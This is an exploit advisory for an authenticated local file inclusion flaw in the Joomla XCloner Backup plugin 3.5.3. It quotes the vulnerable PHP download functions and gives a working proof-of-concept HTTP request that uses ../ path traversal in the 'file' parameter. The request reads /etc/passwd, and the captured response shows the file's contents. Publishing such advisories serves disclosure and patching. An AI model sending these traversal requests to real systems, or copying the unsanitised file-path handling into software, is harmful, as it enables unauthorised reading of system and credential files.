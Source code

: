 Exploit Title: Joomla! Plugin XCloner Backup 3.5.3 - Local File Inclusion (Authenticated)<br>
Date: 2020-05-10<br>
Exploit Author: Mehmet Kelepçe / Gais Cyber Security<br>
Exploit-Db Author ID: 8763<br>
Reference: https://www.xcloner.com/xcloner-news/security-release-available-for-archived-joomla-version/<br>
Vendor Homepage: http://www.xcloner.com<br>
Software Link: https://www.xcloner.com/support/download/<br>
Version: 3.5.3<br>
Tested on: Kali Linux - Apache2<br>
<br>
Detail:<br>
<br>
File: administrator/components/com_xcloner-backupandstore/admin.cloner.php<br>
-<br>
case 'download':<br>
 downloadBackup($_REQUEST['file']);<br>
 break;<br>
-<br>
<br>
downloadBackup function's file -> administrator/components/com_xcloner-backupandstore/cloner.functions.php<br>
Vulnerable parameter: file<br>
<br>
downloadBackup function's definition<br>
-<br>
  function downloadBackup($file)<br>
  {<br>
      global $_CONFIG;<br>
<br>
      $file = realpath($_CONFIG['clonerPath'] . "/$file");
<br>
      //First, see if the file exists<br>
      if (!is_file($file)) {<br>
          die("<b>404 File $file was not found!</b>");<br>
      }<br>
<br>
      //File Info<br>
      $len = get_filesize($file);<br>
      $filename = basename($file);<br>
      $file_extension = strtolower(substr(strrchr($filename, "."), 1));<br>
<br>
      //Setam Content-Type-urile pentru  fisierul in cauza<br>
      switch ($file_extension) {<br>
          default:<br>
              $ctype = "application/force-download";<br>
      }<br>
<br>
 smartReadFile($file, $filename);<br>
<br>
      exit;<br>
  }<br>
-<br>
and smartReadFile function's definition<br>
-<br>
function smartReadFile($location, $filename, $mimeType='application/octet-stream')<br>
{ if(!file_exists($location))<br>
  { header ("HTTP/1.0 404 Not Found");<br>
    return;<br>
  }<br>
<br>
  $size=filesize($location);<br>
  $time=date('r',filemtime($location));<br>
<br>
  $fm=@fopen($location,'r');<br>
.<br>
.<br>
.<br>
-<br>
PoC:<br>
Request:<br>
-<br>
GET /joomla/administrator/index.php?option=com_xcloner-backupandrestore&task=download&file=../../../../../../../../etc/passwd HTTP/1.1<br>
Host: localhost<br>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0<br>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br>
Accept-Language: en-US,en;q=0.5<br>
Accept-Encoding: gzip, deflate<br>
Referer: http://localhost/joomla/administrator/index.php?option=com_xcloner-backupandrestore&task=view<br>
Connection: close<br>
Cookie: COOKIES<br>
Upgrade-Insecure-Requests: 1<br>
-<br>
Response:<br>
-<br>
HTTP/1.0 200 OK<br>
Date: Sun, 10 May 2020 18:12:04 GMT<br>
Server: Apache/2.4.41 (Debian)<br>
Cache-Control: public, must-revalidate, max-age=0<br>
Pragma: no-cache<br>
Accept-Ranges: bytes<br>
Content-Length: 3347<br>
Content-Range: bytes 0-3347/3347<br>
Content-Disposition: inline; filename=passwd<br>
Content-Transfer-Encoding: binary<br>
Last-Modified: Sun, 22 Mar 2020 05:41:35 -0700<br>
Connection: close<br>
Content-Type: application/octet-stream<br>
<br>
root:x:0:0:root:/root:/bin/bash<br>
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin<br>
bin:x:2:2:bin:/bin:/usr/sbin/nologin<br>
sys:x:3:3:sys:/dev:/usr/sbin/nologin<br>
sync:x:4:65534:sync:/bin:/bin/sync<br>
.<br>
.<br>

